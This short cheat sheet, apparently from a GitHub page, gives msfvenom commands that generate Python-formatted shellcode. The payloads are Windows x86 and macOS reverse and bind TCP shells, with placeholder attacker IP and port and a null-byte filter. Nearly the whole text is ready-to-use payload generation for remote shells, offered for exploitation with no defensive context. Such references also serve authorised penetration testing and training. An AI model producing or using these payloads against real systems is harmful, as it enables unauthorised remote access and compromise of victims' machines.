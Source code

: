 # Creating Payloads for Python Exploits

**List all payloads**
```
msfvenom -l payloads
```

**Windows x86 Reverse TCP Shell**
```
msfvenom -p windows/shell/reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Windows x86 Bind Shell**
```
msfvenom -p windows/shell/bind_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```


**Mac Reverse Shell**
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=$ip LPORT=4444 -b "\x00" -f py
```

**Mac Bind Shell***
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=$ip LPORT=4444 -b "\x00" -f py
```

